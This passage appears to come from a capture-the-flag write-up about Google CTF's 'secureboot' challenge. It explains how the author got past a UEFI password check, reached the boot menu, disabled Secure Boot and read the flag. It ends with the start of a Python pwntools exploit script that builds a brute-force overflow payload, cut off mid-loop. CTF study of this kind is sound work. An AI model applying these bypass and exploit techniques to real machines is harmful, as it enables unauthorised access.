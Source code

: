 The other gotcha was how to send an F12 via python and pwntools. I ended up just launching wireshark and copied that bytes that were sent when I manually typed it through `socat -,raw,echo=0 tcp:secureboot.ctfcompetition.com:1337` and found out that it was `p.send("\x1b\x5b\x32\x34\x7e")`! Combining this all together allows us to skip the password check and takes us to the next stage, but pwntools was not happy displaying the texted based UI. Using the hint fron the challenge description worked a treat!

```bash
$ socat -,raw,echo=0 SYSTEM:"python ./solv.py"

 Standard PC (i440FX + PIIX, 1996)
 pc-i440fx-bionic                                    2.00 GHz
 0.0.0                                               128 MB RAM



   Select Language            <Standard English>         This is the option
                                                         one adjusts to change
 > Device Manager                                        the language for the
 > Boot Manager                                          current system
 > Boot Maintenance Manager

   Continue
   Reset







  ^v=Move Highlight       <Enter>=Select Entry
```

From this menu you can select **Device Manager -> Secure Boot Configuration**, disable **Attempt Secure Boot**, the save and continue.
```

                ���������������������������������������������Ŀ
                �Configuration changed. Reset to apply it Now.�
                �            Press ENTER to reset             �
                �����������������������������������������������
```

This skips the secure boot and starts linux, dropping us into a shell where we can cat the flag! **CTF{pl4y1ng_with_v1rt_3F1_just_4fun}**


*Full exploit script*
```python
#!/usr/bin/env python2
import logging
from pwn import *

"""
Run with:
socat -,raw,echo=0 SYSTEM:"python ./solv.py"
"""

target = 0x67DB07B

def find_sha(check):
    for i in xrange(100000000):
        payload = str(i)
        payload = payload.ljust(128, "a")
        payload += "\x00" * 8
        payload += p32(target)
```
